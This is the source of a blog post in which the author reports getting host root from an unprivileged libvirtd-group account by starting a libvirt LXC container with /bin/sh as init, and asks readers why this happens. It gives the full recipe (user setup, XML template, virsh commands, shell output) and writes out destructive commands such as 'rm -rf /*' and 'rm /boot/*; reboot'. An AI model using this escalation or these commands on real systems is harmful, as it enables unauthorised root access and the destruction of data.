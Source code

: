 ```yaml
---
layout: post
title: Docker Container Madness
---
```


(...or How I Got Root in Less than 5 Minutes)

I'm unsure if this is actually a vulnerability or just a usability problem with the normal behaviour of LXC/Docker/Libvirt. Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system from an ordainary user account. I imagine new users of Docker, like myself, should be more concerned about how safe these defaults really are.

<img src="https://raw.githubusercontent.com/adrianlshaw/adrianlshaw.github.com/master/images/docker.png" alt="Docker logo" title="Docker" align="center"/>

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the libvirtd group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. **LIBVIRT_DEFAULT_URI=lxc:///**, such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
  user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}

And now try to run the **bash** shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with Docker? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. 

Thoughts are welcomed. Especially from Docker magicians - what are the semantics behind this configuration file? Privileges by default? But my user had no superuser access. The kernel of the host is 3.13.0-32-generic from Ubuntu 14.04.1.

{% highlight bash %}
$ docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
{% endhighlight %}
